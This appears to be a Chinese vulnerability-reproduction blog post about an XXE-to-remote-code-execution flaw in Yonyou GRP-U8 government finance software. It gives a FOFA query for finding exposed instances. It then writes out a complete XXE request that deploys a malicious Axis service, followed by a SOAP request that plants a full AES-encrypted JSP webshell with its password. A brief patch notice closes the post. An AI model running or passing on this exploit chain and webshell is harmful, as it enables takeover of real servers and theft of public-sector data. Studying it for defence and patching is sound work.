









# 用友GRP-U8 ReturnForWcp RCE漏洞复现

### 0x01 产品简介

    用友GRP-U8内控管理软件是用友公司专注于国家电子政务事业,基于[云计算技术](https://so.csdn.net/so/search?q=%E4%BA%91%E8%AE%A1%E7%AE%97%E6%8A%80%E6%9C%AF&spm=1001.2101.3001.7020 "云计算技术")所推出的[新一代](https://so.csdn.net/so/search?q=%E6%96%B0%E4%B8%80%E4%BB%A3&spm=1001.2101.3001.7020)产品,是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

   用友GRP-U8内控管理软件/servlet/PayReturnForWcp接口处存在xxe漏洞，攻击者可利用xxe漏洞组合内部axis组件的AdminService部署恶意类service，使用外部实体%name来加载"http://xxxx/services/AdminService?method=xx" 远程URL，调用javax.elELProcessor，部署成功后可写入恶意后门文件，可导致服务器失陷。

### 0x03 影响范围

 用友GRP-U8R10产品官方在售及提供服务的版本为U8Manager，产品分B、C、G三个产品系列

### 0x04 复现环境

FOFA：app="用友-GRP-U8"



### 0x05 漏洞复现 

查看Axis组件是否存在名为AdminService的接口,如果存在可尝试部署恶意service



 写入后门文件需要获取绝对路径

```cobol
http://your-ip/u8qx/pubDownTemplate.jsp
```

 

**Exp**

```perl
POST /servlet/PayReturnForWcp HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0

<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://127.0.0.1:8001/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22OpenTaske%22%20provider%3D%22java%3ARPC%22%3E%3CrequestFlow%3E%3Chandler%20type%3D%22java%3Aorg.apache.axis.handlers.LogHandler%22%20%3E%3Cparameter%20name%3D%22LogHandler.fileName%22%20value%3D%22D:\UFGOV_M\U8\webapps\a.jsp%22%20%2F%3E%3Cparameter%20name%3D%22LogHandler.writeToConsole%22%20value%3D%22false%22%20%2F%3E%3C%2Fhandler%3E%3C%2FrequestFlow%3E%3Cparameter%20name%3D%22className%22%20value%3D%22java.util.Random%22%20%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%20%2F%3E%3C%2Fservice%3E%3C%2Fdeployment">
```

PS：需要替换请求体中的地址端口和绝对路径 

**部署service（OpenTaske）**



**验证**



 **写入webshell**

```cobol
POST /services/OpenTaske HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
Accept: application/soap+xml, application/dime, multipart/related, text/*
User-Agent: Axis/1.4
Cache-Control: no-cache
Pragma: no-cache
SOAPAction: ""

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:util="http://util.java">
   <soapenv:Header/>
   <soapenv:Body>
      <util:ints soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance">
         <![CDATA[<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>]]>
        </in0>
         <in1 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance">?</in1>
      </util:ints>
   </soapenv:Body>
</soapenv:Envelope>
```



**验证**

 PS：返回以上情况马子才可以解析

**尝试连接**





###  0x06 修复建议

本次漏洞加固方式为使用JDOM解析器禁止xml中某些实体的使用。已发布相关补丁，请及时更新修复补丁。

**获取补丁方式如下：**

 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA

提取码：n1xy

用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY密码：a61h

补丁名称：20231031-关于用友GRP-U8内控管理软件ReturnForWcp存在命令执行漏洞的解决方案.zip
